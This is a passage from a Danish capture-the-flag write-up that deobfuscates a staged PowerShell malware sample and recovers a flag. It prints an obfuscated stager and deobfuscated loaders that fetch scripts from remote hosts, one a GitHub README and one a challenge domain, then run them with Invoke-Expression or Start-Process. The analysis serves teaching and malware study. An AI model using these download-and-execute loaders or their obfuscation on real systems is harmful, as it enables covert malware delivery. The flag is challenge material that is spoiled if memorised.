[io.cOmPressiOn.cOmPrESsioNmodE]::DeComPreSs )) ,[TExT.EncoDiNG]::AscII) ).ReadTOeNd()
```

Ahh, endnu et encoded script - denne gang et PowerShell script, der tilsyneladende er blevet komprimeret og derefter base64 encoded.
Scriptet ovenfor starter i hvert fald med at base64 decode teksten i midten og derefter bruges `io.compression.deflatestream` med `[io.compression.compressionmode]::decompress` som argument.

Sidst læses teksten som ASCII, og der kaldes `.( $pshomE[4]+$pshoMe[34]+'X')` på det - dvs. miljøvariablen `$PSHome` benyttes, altså home path for PowerShell. På de fleste Windowsmaskiner er det `C:\Windows\SysWOW64\WindowsPowerShell\v1.0` for 32-bit og `C:\Windows\System32\WindowsPowerShell\v1.0` for 64-bit, dvs. `$PSHome[4] = "i"` og `$PSHome[34] = "e"` på begge. Det decoder altså til `iex`, kort for `Invoke-Expression`, som kører en streng som en kommando. Bemærk at `$PSHome` vil være helt anderledes, hvis man kører `pwsh` i Linux og er slet ikke sat i WSL som default, hvilket gør, det slet ikke kører i miljøer, det ikke er beregnet til at angribe.

Som tidligere nævnt vil det nemmeste her nok være at udskifte `iex` i starten (altså hele `.( $pshomE[4]+$pshoMe[34]+'X')`) med et print, fx `Write-Host`, og så bare køre kommandoen - så printes det decodede script i stedet for at eksekveres. Alternativt kan man bruge fx [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%252B/%253D',true,false)Raw_Inflate(0,0,'Adaptive',false,false)) med en `From Base64` efterfulgt af `Raw Inflate` på selve den encodede string.

Næste step er følgende obfuskerede PowerShell script:

```ps1
 &("{2}{1}{0}"-f'iable','t-Var','Se') -Name ("{1}{0}"-f 'M','CwS') -Value ([Type]("{3}{2}{1}{0}"-f 'NG',("{0}{1}"-f 'E','ncodi'),("{2}{1}{0}"-f'.','.texT','EM'),("{1}{0}" -f'yST','s')));  &("{3}{2}{1}{0}" -f 'able','t-Vari','e','S') -Name ("{0}{2}{1}" -f'E','EDUrL','NCod') -Value ([byte[]]@(38,55,71,11,78,30,75,45,21,70,66,56,26,71,11,0,16,68,7,28,45,87,24,90,6,86,0,71,93,16,48,6,90,60,4,6,70,78,44,119,93,31,71,95,75,17,69,66,31,108,17,7,13,17,65,95,91,20,62,93,25,27,32,118,47,119,62,54,113,6,17))
&("{0}{3}{1}{2}"-f'Set','ar','iable','-V') -Name ("{1}{0}"-f'Ey','K') -Value (( .('gI') ("VA"+"ri"+"Ab"+("{2}{0}{1}"-f'Ws','m','LE:C')) )."vA`LuE"::"uT`F8".("{1}{2}{0}" -f("{1}{0}" -f'ytes','B'),'G','et')."I`NVOke"("NC3{") + [byte[]]@(116,49,100,95,116,49,108,95,115,51,99,117,114,49,116,121,95,52,119,52,114,51,110,51,115,115,95,107,117,114,53,117,53) +  (.("{1}{2}{0}" -f 'blE','GET-var','iA')  ("C"+"wsm") -VALue  )::"uT`F8".("{1}{2}{0}" -f 'tes','Ge','tBy')."In`Voke"("}"))
for (.("{3}{2}{0}{1}" -f'ria','ble','et-Va','S') -Name ('i') -Value (0); ${i} -lt ${eN`c`odeDUrl}."lE`NGth"; ${i}++) {
    ${eNC`oDEDU`Rl}[${I}] = ${EN`cOD`EdURl}[${I}] -bxor ${k`eY}[${i} % ${K`eY}."l`EngtH"]
}
&("{2}{1}{0}" -f'ariable','et-V','S') -Name ("{4}{3}{2}{0}{1}"-f 'lHoSTE','R','MIcUR','nA','dY') -Value (( .("{1}{0}{2}"-f'Il','Get-ch','DItem')  ("{1}{0}{2}{3}" -f 'ri','VA','aBLe:C','wsM')  )."va`lUE"::"UT`F8"."G`e`T`stRinG"(${enc`O`De`DuRL}))
&("{0}{2}{1}"-f 'Set','ariable','-V') -Name ("{2}{0}{1}"-f 'Du','Rl','PaYlOa') -Value (.("{1}{3}{2}{0}" -f ("{0}{3}{2}{1}" -f 'Web','st','eque','R'),("{0}{1}" -f 'I','nvo'),'e-','k') -Uri ${DyNam`Icu`R`lhoSTeR} | .("{1}{2}{0}{3}"-f 'c',("{1}{0}{2}" -f'elec','S','t-Ob'),'je','t') -ExpandProperty ("{0}{1}" -f("{0}{1}" -f'C','onten'),'t'))
.("{1}{2}{0}{3}" -f'riab','S','et-Va','le') -Name ("{1}{0}" -f 'pt','scrI') -Value (&("{0}{2}{4}{1}{3}"-f'Invoke','b','-',("{0}{2}{1}" -f 'Req','t','ues'),'We') -Uri ${P`AylO`AduRL} | &("{1}{2}{3}{0}"-f("{1}{0}"-f 'ject','b'),'S',("{0}{1}" -f'ele','ct'),'-O') -ExpandProperty ("{1}{0}" -f("{0}{1}"-f 'onten','t'),'C'))
&("{0}{5}{4}{1}{2}{3}"-f'Inv','xpr',("{0}{1}" -f 'essi','o'),'n','-E','oke') ${s`cRi`PT}
```

Her bruges en række klassiske obfuskeringsteknikker, fx at de fleste tokens er lavet til strings, splittet i dele og scrambled. PowerShell variable er også case insensitive og kan indeholde tilfældige backticks uden at ændres, så fx er `$encodedUrl` samme variabel som ``${enc`O`De`DuRL}`` og ``${EN`cOD`EdURl}``. Dette kan decodes manuelt og ellers kan [PowerDecode](https://github.com/Malandrone/PowerDecode) anbefales (kræver Windows).

Benyttes dens automatiske deobfuscator fås følgende resultat ud:

```ps1
$fileUrl = "http://det.jul.det.cool/not_sus.ps1"
(New-Object System.Net.WebClient).DownloadFile($fileUrl, (Get-Location).Path + "\payload.ps1")
Start-Process (Get-Location).Path + "\payload.ps1"
```

Hmm, det script henter et nyt PowerShell script ned fra en URL, gemmer det på maskinen, og eksekverer det, men variablen `$fileUrl` findes ikke i det obfuskerede script, så hvor kommer dette script nu fra?
Her har `PowerDecode` gjort lidt for meget arbejde og faktisk dynamisk afviklet noget af det tidligere script og hentet en ny stage ned fra nettet.

Det er bedre (og sikrere) at bruge manual mode. Vælges følgende options:
```console
[2]-Manual decode mode
    [1]-Decode script by regex
        @: select all
```

fås følgende delvist deobfuskerede script:

```ps1
Set-Variable -Name 'CwSM' -Value ([Type]'sySTEM.texT.EncodiNG')

Set-Variable -Name 'ENCodEDUrL' -Value ([byte[]]@(38,55,71,11,78,30,75,45,21,70,66,56,26,71,11,0,16,68,7,28,45,87,24,90,6,86,0,71,93,16,48,6,90,60,4,6,70,78,44,119,93,31,71,95,75,17,69,66,31,108,17,7,13,17,65,95,91,20,62,93,25,27,32,118,47,119,62,54,113,6,17))

Set-Variable -Name 'KEy' -Value (( gI ("VAriAb"+'LE:CWsm') ).vALuE::"uTF8".GetBytes.INVOke("NC3{") + [byte[]]@(116,49,100,95,116,49,108,95,115,51,99,117,114,49,116,121,95,52,119,52,114,51,110,51,115,115,95,107,117,114,53,117,53) + (GET-variAblE  ("Cwsm") -VALue  )::"uTF8".GetBytes.InVoke("}"))

for (Set-Variable -Name 'i' -Value (0); ${i} -lt ${eNcodeDUrl}.lENGth; ${i}++) {
    ${eNCoDEDURl}[${I}] = ${ENcODEdURl}[${I}] -bxor ${keY}[${i} % ${KeY}.lEngtH]
}

Set-Variable -Name 'dYnAMIcURlHoSTER' -Value (( Get-chIlDItem  'VAriaBLe:CwsM'  ).valUE::"UTF8".GeTstRinG(${encODeDuRL}))
Set-Variable -Name 'PaYlOaDuRl' -Value (Invoke-WebRequest -Uri ${DyNamIcuRlhoSTeR} | Select-Object -ExpandProperty 'Content')
Set-Variable -Name 'scrIpt' -Value (Invoke-WebRequest -Uri ${PAylOAduRL} | Select-Object -ExpandProperty 'Content')
Invoke-Expression ${scRiPT}
```

Her ser vi umiddelbart et bytearray `encodedUrl`, et bytearray `key`, og så et loop, der virker til at XOR-dekryptere den krypterede URL med nøglen.
Herefter sættes `dynamicUrlHoster` til resultatet, og det er tilsyneladende en URL, der laves et request til. Resultatet af det request sættes i `payloadUrl` og virker til at være endnu en URL, for nu laves til sidst et request mod denne, resultatet gemmes i `$script`, og sidst afvikles det med `Invoke-Expression`.

Vi kan åbne en PowerShell prompt og køre alt til og med linjen, der sætter `dynamicUrlHoster`, så får vi nemlig den URL, der først køres et request imod:

```console
> Write-Host $dynamicUrlHoster
http://raw.githubusercontent.com/N1ss3b4nd3n/N1ss3b4nd3n/main/README.md
```

Perfekt! Et rigtig godt spor, `N1ss3b4nd3n` har åbenbart en GitHub med et repo af samme navn og i dets README finder vi et link til en pastebin - og det link peger på det script, vi oprindeligt fandt med `PowerDecode`s automatic mode. `N1ss3b4nd3n` hoster altså umiddelbart et link dynamisk på deres GitHub til næste stage, der derved nemt kan udskiftes.

Men hvad med flaget? Kigger man lidt grundigere på koden ses, at XOR-nøglen tydeligt starter med `NC3{` og slutter med `}` - nøglen er nok vores flag!
Printer vi hele nøglen som ASCII-tekst, får vi flaget:

```console
> Write-Host ([System.Text.Encoding]::UTF8.GetString($key))
NC3{t1d_t1l_s3cur1ty_4w4r3n3ss_kur5u5}
```

Perfekt! Videre til næste opgave: [Nisseware: Loading](../nisseware-loading/), hvor den fundne GitHub profil bliver vigtig!

**Flag**

`NC3{t1d_t1l_s3cur1ty_4w4r3n3ss_kur5u5}`
